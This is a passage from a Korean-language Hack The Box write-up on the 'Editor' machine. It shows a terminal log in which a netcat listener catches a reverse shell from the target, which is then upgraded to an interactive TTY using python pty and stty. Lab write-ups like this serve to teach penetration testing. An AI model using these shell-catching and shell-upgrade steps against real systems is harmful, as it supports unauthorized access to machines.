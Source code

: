 <img src='assets/post/2025/Playground/Hack The Box/Editor/2.png' width=1200 alt=''>

<br>

- 대상 호스트에는 `python3`가 설치되어 있었다. 원활한 공격을 위해 FULL TTY 쉘로 업그레이드한다.  

```zsh
└─# rlwrap nc -lvnp 9001                                                                                                    
listening on [any] 9001 ...                                                                                                 
python3 --version
Python 3.10.12

[ . . . ]

connect to [10.10.14.66] from (UNKNOWN) [10.129.3.82] 48934
python3 -c 'import pty;pty.spawn("/bin/bash")'
xwiki@editor:/usr/lib/xwiki-jetty$                                                                                          
zsh: suspended  rlwrap nc -lvnp 9001                                                                                        
                                                                                                                            
┌──(root㉿kali)-[/home/kali/Desktop/htb]
└─# stty raw -echo; fg
[1]  + continued  rlwrap nc -lvnp 9001
xwiki@editor:/usr/lib/xwiki-jetty$ reset
reset
```